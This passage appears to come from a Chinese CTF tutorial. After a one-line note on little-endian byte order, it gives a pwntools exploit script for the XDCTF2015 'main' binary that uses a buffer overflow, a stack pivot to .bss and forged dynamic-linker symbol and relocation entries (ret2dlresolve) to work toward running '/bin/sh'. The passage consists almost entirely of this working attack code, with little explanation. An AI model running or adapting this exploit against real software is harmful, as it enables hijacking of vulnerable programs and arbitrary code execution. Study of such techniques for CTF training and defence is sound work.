
这里给出的其实是小端模式，因此我们需要手工转换。此外，每个符号占用的大小为16个字节。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

# stack privot to bss segment
# new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
## padding
rop.raw('a' * offset)
## read 100 byte to base_stage
rop.read(0, base_stage, 100)
## stack privot, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

# write sh="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr

## making fake write symbol
fake_sym_addr = base_stage + 32
align = 0x10 - ((fake_sym_addr - dynsym) & 0xf
                )  # since the size of item(Elf32_Symbol) of dynsym is 0x10
fake_sym_addr = fake_sym_addr + align
index_dynsym = (
    fake_sym_addr - dynsym) / 0x10  # calculate the dynsym index of write
fake_write_sym = flat([0x4c, 0, 0, 0x12])

## making fake write relocation

# making base_stage+24 ---> fake reloc
index_offset = base_stage + 24 - rel_plt
write_got = elf.got['write']
r_info = (index_dynsym << 8) | 0x7
fake_write_reloc = flat([write_got, r_info])

rop.raw(plt0)
rop.raw(index_offset)
# fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw(fake_write_reloc)  # fake write reloc
rop.raw('a' * align)  # padding
rop.raw(fake_write_sym)  # fake write symbol
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))
```